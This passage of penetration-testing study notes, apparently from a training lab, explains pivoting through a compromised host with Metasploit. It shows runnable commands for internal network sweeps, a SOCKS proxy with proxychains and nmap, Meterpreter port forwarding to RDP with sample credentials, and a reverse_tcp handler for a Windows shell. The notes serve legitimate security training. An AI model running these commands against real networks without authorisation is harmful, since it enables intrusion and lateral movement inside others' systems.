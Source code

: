 **2. Network Enumeration via Pivot**:
- **Objective**: Scan the internal network (e.g., 172.16.5.0/23) through the pivot host.
- **Ping Sweep**:
  - Command: `run autoroute -s 172.16.5.0/23` (from Meterpreter session).
  - Performs a ping sweep to identify live hosts.
  - Note: Initial sweeps may fail due to ARP cache delays; repeat scans or use `-Pn` (no ping) for Nmap if ICMP is blocked.
- **Key Insight**: Meterpreter’s routing capabilities allow enumeration of internal networks unreachable from the attack host.

**3. Configuring SOCKS Proxy for Dynamic Tunneling**:
- **Objective**: Route traffic through the Meterpreter session to access internal hosts dynamically.
- **Steps**:
  - **Set Up SOCKS Proxy**:
    - Commands:
      ```
      msf6 > use auxiliary/server/socks_proxy
      msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
      msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
      msf6 auxiliary(server/socks_proxy) > set version 4a
      msf6 auxiliary(server/socks_proxy) > run
      ```
    - Starts a SOCKS4a proxy on 0.0.0.0:9050, routing traffic via the Meterpreter session.
  - **Verify Proxy**:
    - Command: `jobs` (confirms the SOCKS proxy is running as a background job).
  - **Route Internal Network**:
    - Command: `run post/multi/manage/autoroute SUBNET=172.16.5.0/23`
    - Adds a route to 172.16.5.0/255.255.254.0 via the pivot host.
    - Verify: `run autoroute -p` (lists active routes, e.g., 172.16.5.0/23 via Session 1).
  - **Test with Proxychains**:
    - Configure `/etc/proxychains.conf` with `socks4 127.0.0.1 9050`.
    - Command: `proxychains nmap -sT -p3389 172.16.5.19 -Pn`
    - Result: Discovers open port 3389 (RDP) on 172.16.5.19, confirming proxy functionality.
- **Key Insight**: The SOCKS proxy enables dynamic access to multiple internal hosts/services, similar to SSH dynamic forwarding but integrated with Metasploit.

**4. Local Port Forwarding with Meterpreter**:
- **Objective**: Forward a specific internal service (e.g., RDP on 172.16.5.19:3389) to the attack host.
- **Command**:
  - `meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19`
  - Creates a local TCP relay: `localhost:3300` → `172.16.5.19:3389` via the Meterpreter session.
- **Usage**:
  - Command: `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`
  - Establishes an RDP session to 172.16.5.19:3389 through the pivot host.
  - Verify: `netstat -antp` (shows an established connection on 127.0.0.1:3300).
- **Key Insight**: Meterpreter’s `portfwd` module mimics SSH local port forwarding, allowing direct access to specific internal services.

**5. Reverse Port Forwarding with Meterpreter**:
- **Objective**: Forward connections from a port on the pivot host to a service on the attack host, enabling a Windows target to connect back to the attacker.
- **Steps**:
  - **Set Up Reverse Port Forwarding**:
    - Command: `portfwd add -R -l 8081 -p 1234 -L 0.0.0.0`
    - Forwards connections from pivot host’s port 1234 to attack host’s port 8081.
  - **Configure Multi/Handler for Windows Payload**:
    - Commands:
      ```
      msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
      msf6 exploit(multi/handler) > set LPORT 8081
      msf6 exploit(multi/handler) > set LHOST 0.0.0.0
      msf6 exploit(multi/handler) > run
      ```